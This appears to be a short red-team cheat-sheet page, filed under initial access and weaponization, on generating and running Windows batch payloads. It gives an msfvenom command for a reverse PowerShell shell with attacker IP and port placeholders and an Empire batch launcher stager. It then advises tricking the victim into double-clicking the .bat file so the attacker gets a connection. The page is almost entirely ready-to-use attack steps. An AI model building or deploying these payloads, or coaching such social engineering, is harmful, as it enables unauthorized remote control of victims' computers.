 # Batch

## 01 - Generate Payloads

### 1.1 - `msfvenom`

```
$ msfvenom -p cmd/windows/reverse_powershell lhost=<IP> lport=<PORT> -f raw -o payload.bat
```

### 1.2 - Empire

```
(Empire) > usestager windows/launcher_bat
```

## 02 - Execute Payloads

> [!TIP] Batch Payloads
> You can actually social engineer the victim to double click the `.bat` or `.cmd` to establish connection.

```
C:\> .\payload.bat
```

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/Malware Development/Bypass Defenses/Obfuscation/Techniques/String Manipulation/Windows/Batch]]